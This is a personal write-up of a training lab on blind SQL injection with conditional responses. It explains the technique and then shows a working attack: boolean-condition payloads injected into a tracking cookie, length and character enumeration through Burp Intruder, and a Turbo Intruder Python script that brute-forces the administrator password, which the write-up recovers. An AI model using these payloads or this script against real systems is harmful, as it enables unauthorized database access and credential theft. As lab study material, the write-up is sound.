# Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a **tracking cookie** for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint
1. You can assume that the password only contains lowercase, alphanumeric characters.

## Conceptual Review

### Exploiting blind SQL injection by triggering conditional responses

Suppose that there is a website that uses tracking cookies to gather analytics on usage. The cookie header will look like this:

> Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

When a request containing a TrackingID cookie is processed, the application uses a SQL query to determine whether this is a known user.

> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

However, the results of this query will not be returned to the user. Rather, we will receive a 'Welcome Back' for example if the query is true. By using some logical equivalences, we can exploit the output to see the displayed results.

> p AND true === p
> p AND false === p

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than t.

> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`.

## Attempt

This is our tracking cookie `hb1e0x9QkLerKywR`.

First we need to verify our there is a blind sql vulnerability.

> TrackingId = hb1e0x9QkLerKywR' AND 1 = 1--

We get a welcome back message.

> TrackingId = hb1e0x9QkLerKywR' AND 1 = 2--

We don't get a welcome back message.

Now we need to confirm that we have a users table. 

> TrackingId = hb1e0x9QkLerKywR' AND (select 'x' FROM users LIMIT 1) = 'x'--'

What this does is, output the value x for each entry in the users table, and limit it to only 1 entry. If the output is equal to x, then it will evaluate the true. Hence if the users table does not exist, this will evaluate to false.

Next, we have to confirm that the username administrator exists in the table.

> TrackingId = hb1e0x9QkLerKywR' AND (select username FROM users WHERE username = 'administrator') = 'administrator'--'

Great, now we need to determine the length of the password.

> TrackingId = hb1e0x9QkLerKywR' AND (select username FROM users WHERE username = 'administrator' AND LENGTH(password)>1) = 'administrator'--'

Supposedly we increment 1, 2, 3, until we find the length of the password. However, that is not very efficient and quite monkey brain. We want to be bear brain. 

We send our repeater to intruder in burpsuite and set up an enumerator from 1 to 50, and let the tools do it for us. 



1. We want to clear every attack in the intruder by pressing clear.


2. We want to add an attack at the number we want to increment. 


3. Make sure its a sniper attack.


4. We fill in our payload


5. Looking at all the responses from 1 to 50, I noticed that at 20, the length of the reponse is smaller than at 19. Indicating that 'Welcome Back!' is not being printed. 


6. Looking closer into it, we see that 'Welcome Back!' indeed is not printed.


Thereore we conclude that the password length is 20.

We now need to do the final task, enumerate the password character by character until we find the password.

> TrackingId = hb1e0x9QkLerKywR' AND (select substring(password,1,1) FROM users WHERE username = 'administrator') = 'a'--'

> substring(word, starting index, num_of_chars)

Now we send this to the intruder and perform similar steps as before to find the password.

1. We add an attack at the letter we want to enumerate, and set our payload to bruteforcer.


2. We send an attack and find the character 1


3. Instead of doing this 20 times, we will use a clusterbomb attack


4. Setting our payloads to increment the character position and the alphanumeric checker, we are all set to find the password.

5. However, doing this on burp community edition is much too slow, so we shall use turbo intruder extension on burp.

6. It is slightly different from the standard intruder, where we replace the value we want to enumerate to %s
> hb1e0x9QkLerKywR'+AND+(select+substring(password,%s,1)+FROM+users+WHERE+username+%3d+'administrator')+%3d+'%s'--'

7. We then change the python to fit what we want to enumerate
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
    # 1 to 20 for the first %s
    Positions = [str(i) for i in range(1, 21)]

    # Alphanumeric characters for the second %s
    charset = 'abcdefghijklmnopqrstuvwxyz0123456789'

    for pos in Positions:
        for ch in charset:
            payloads = [pos, ch] # This will fill the two %% placeholders in order
            engine.queue(target.req, payloads)


def handleResponse(req, interesting):
    table.add(req)
```



The password we get is: `129tri0ourn22a2qyjww`